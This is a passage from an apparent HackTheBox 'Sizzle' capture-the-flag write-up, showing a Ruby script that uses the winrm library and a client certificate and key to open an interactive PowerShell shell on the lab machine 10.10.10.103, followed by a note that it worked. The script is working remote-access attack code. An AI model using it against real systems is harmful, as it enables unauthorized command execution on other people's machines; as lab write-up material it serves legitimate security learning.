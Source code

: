 ![](/images/hackthebox/sizzle/24.png)
```
#!/usr/bin/ruby
require 'winrm'

# Author: Alamot

conn = WinRM::Connection.new( 
  endpoint: 'https://10.10.10.103:5986/wsman',
  transport: :ssl,
  client_cert: '/root/Desktop/HTB/boxes/sizzle/certs/certnew.cer',
  client_key: '/root/Desktop/HTB/boxes/sizzle/certs/request.key',
  :no_ssl_peer_verification => true
)

command=""

conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')")
        print(output.output.chomp)
        command = gets        
        output = shell.run(command) do |stdout, stderr|
            STDOUT.print stdout
            STDERR.print stderr
        end
    end    
    puts "Exiting with code #{output.exitcode}"
end
```
#### And it worked :
![](/images/hackthebox/sizzle/25.png)
#### But there was no `user.txt` :